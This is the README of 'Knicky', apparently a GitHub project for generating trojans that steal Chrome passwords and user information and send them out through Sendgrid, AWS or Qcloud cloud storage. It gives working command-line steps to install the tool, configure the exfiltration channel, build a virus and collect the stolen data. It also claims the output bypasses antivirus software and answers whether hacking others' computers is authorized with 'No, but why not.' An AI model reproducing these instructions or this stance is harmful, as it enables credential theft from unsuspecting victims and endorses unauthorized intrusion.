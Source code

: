 # Knicky
Yet another module-based static virus generator 
```
There will be a picture
```
## Little FAQ
**WTF is static virus?**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side by tricky ways (Sendgrid, AWS, Qcloud, etc.).  

 
**Why use it?**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using.  

**Am I authorized to hack others' computer?**  
No, but why not.


## Installation
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples

##### 1. Initialize the Module

###### Using Sendgrid
Note: *See the help information about such module*
```bash
$ python cli.py sgUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/sendgrid.txt --user
$ python cli.py sgUpdate\
    --user <receiving email address>\
    --password <receiving email password>\
    --server <receiving email pop3 server>\
    --apiKey <sendgrid api key>\
    -b True
```

###### Using Qcloud COS (腾讯云)
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate\
    --secretID <SecretID>\
    --secretKey <SecretKey>\
    --region <BucketRegion>\
    --bucket <BucketName>\
    -b True
```

##### 2. Have an Overview on Components
See all information about components that are used to communicate with you and the hacked machine (Messenger)
```
$  python cli.py getSendInfo
```
See all information about components that are used to return critical information (Module)
```
$  python cli.py getModuleInfo
```
##### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
##### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```
